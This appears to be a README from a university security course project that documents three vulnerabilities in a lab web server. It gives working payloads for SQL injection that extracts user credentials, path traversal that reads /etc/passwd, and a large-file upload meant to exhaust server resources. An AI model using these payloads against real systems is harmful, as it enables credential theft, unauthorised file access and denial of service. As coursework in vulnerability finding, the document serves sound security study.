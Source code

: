 # csci4271-proj2
- Let url be the path to access 443
"enter" means putting the string in the search bar in web browser, 
lines without "enter" is input in terminal

Running the program:
- git clone...
- ./install.sh
- make
- sudo ./bcpwm-server
- -> Change to another terminal, navigate to the same directory

Setting up the database
- Adding a user with hexmail = "1", hexpass = "2":
- enter "<url>/init_client/31/32"
- Confirm user added:
- enter "<url>/confirm-client/31/32/<token>"
- Adding a rule
- enter "<url>/post-rule/init/admin/1"

# Finding 1: Inject SQL to extract all user credentials
- Expected result: List of all users and passwords
- payload=$(echo "' UNION SELECT user, password FROM user_pw_table;--" | xxd -p)
- curl -k "<url>/init_client/${payload}/31"

# Finding 2: Inject '../' into the file path parameter to read unauthorized files
- Expected result: Contents of /etc/passwd
- payload=$(echo "../../etc/passwd" | xxd -p)
- enter "<url>/get_rule/${payload}"

# Finding 3: Generate a large file (1GB) and upload it
- Expected result: Server becomes unresponsive or logs indicate resource exhaustion.
- dd if=/dev/zero of=largefile.txt bs=1M count=1024
- curl -X POST -F "file=@largefile.txt" -k "<url>/post-rule/init/validsite/validuser"





